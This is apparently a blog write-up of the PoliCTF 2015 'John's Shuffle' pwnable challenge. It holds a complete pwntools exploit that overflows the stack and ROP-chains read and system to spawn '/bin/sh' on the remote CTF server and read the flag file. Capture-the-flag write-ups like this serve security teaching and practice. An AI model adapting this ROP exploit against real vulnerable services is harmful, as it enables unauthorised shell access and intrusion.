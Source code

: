 ```yaml
---
layout: post
title:  "PoliCTF 2015 - John's Shuffle"
date:   2015-08-05 18:03:59
categories: CTF Pwnable
---
```


John is completely drunk and unable to protect his poor stack.. Fortunately he can still count on his terrific shuffling skills.

```
>>> from pwn import *
>>> elf = ELF('johns-shuffle')
    Arch:          i386-32-little
    RELRO:         Partial RELRO
    Stack Canary:  No canary found
    NX:            NX enabled
    PIE:           No PIE
```

## Recon

The first shot at overflowing by throwing a ton of `A`'s worked. I don't actually know what the vulnerbility was, as I didn't open the binary in IDA.

Once we have control of EIP, and the fact that NX is on, we have to start ROP'ing. Using `pwntools`, we immediately see that we have `system` in our binary, but not the string `/bin/sh`. In order to ROP into `system` we have to have a pointer to the string `/bin/sh`. No worries though, because we also have `read` in our binary. 

## Exploit

* Overflow the stack to control EIP.
* ROP into the following chain:
    * `read` to add `/bin/sh` into the .bss segment
    * `system` into the .bss segment where we read our `/bin/sh` string
* ???
* Profit

The binary itself randomizes the GOT each connection, so the exploit can take a while to actually land while waiting for our `system` and `read` addresses to line up properly. Give it a bit, and the exploit lands perfectly.

## Final Exploit

```python
from pwn import *

elf = ELF('johns-shuffle')
rop = ROP(elf)

add_esp_8 = rop.pivots[8]
system = elf.symbols['system']

# Found system in ELF
log.info("System: {}".format(hex(system)))

# ROP shellcode
# read '/bin/sh' into a known location
# call /bin/sh from known location via system
rop.read(0, elf.bss(), 8)
rop.system(elf.bss())

# Set up our payload 
payload = 'b' * 166
payload += str(rop)
payload += cyclic(1000)

print rop.dump()

log.info("You can walk away.. this might take while..")
log.info("Waiting on the randomization to work")
while True:
    try:
        # r = process('./johns-shuffle')
        with remote('shuffle.polictf.it', 80) as r:

            # Debug code
            '''
            gdb.attach(r, """
            bp {}
            c
            """.format(hex(elf.symbols['read'])))
            '''

            # PWN
            r.sendline(payload)

            # Sleep enough to wait for the read() call to hit
            sleep(0.2)

            # Write /bin/sh in the .bss segment to use with our system() ROP
            r.sendline('/bin/sh\x00')

            # Command to send to our new shell
            r.sendline('cat /home/ctf/flag')

            # Be sure to retrieve the flag from the socket
            for _ in xrange(4):
                output = r.recv()
                if 'flag' in output.lower():
                    log.info('FLAG: {}'.format(output))
                    raw_input()
    except:
        pass
```
